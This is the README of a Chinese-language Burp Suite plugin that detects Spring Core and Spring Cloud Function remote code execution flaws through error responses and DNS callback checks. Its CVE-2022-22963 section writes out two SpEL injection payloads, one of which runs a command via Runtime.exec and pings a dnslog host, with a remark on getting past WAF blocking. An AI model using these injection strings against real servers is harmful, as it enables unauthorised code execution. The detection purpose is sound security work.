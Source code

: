 # SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [ ] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog
- [x] BurpCollaboratorClient
- [x] Ceye
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

无损检测，主要通过下面两种方式检测：

* 报错检测
* 回连检测（Dnglos/BurpCollaboratorClient/Ceye）

检测置信度：

> 回连检测 > 报错检测

报错检测误报率较大，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行）
* 通过执行ping命令`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

![image-20220409120135726](imgs/image-20220409120135726.png)

<img src="imgs/image-20220409120218010.png" alt="image-20220409120218010" style="zoom:50%;" />

<img src="imgs/image-20220409120315324.png" alt="image-20220409120315324" style="zoom:50%;" />

<img src="imgs/image-20220409120455863.png" alt="image-20220409120455863" style="zoom:50%;" />

## 截图

加载插件成功

![image-20220409120649662](imgs/image-20220409120649662.png)

漏洞检测情况

![image-20220409121152524](imgs/image-20220409121152524.png)

![image-20220409124509160](imgs/image-20220409124509160.png)

插件设置，默认检测方法全开，回连平台默认Dnslog

![image-20220409120720309](imgs/image-20220409120720309.png)

target 模块中可以看到漏洞详情

![image-20220409124402852](imgs/image-20220409124402852.png)

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
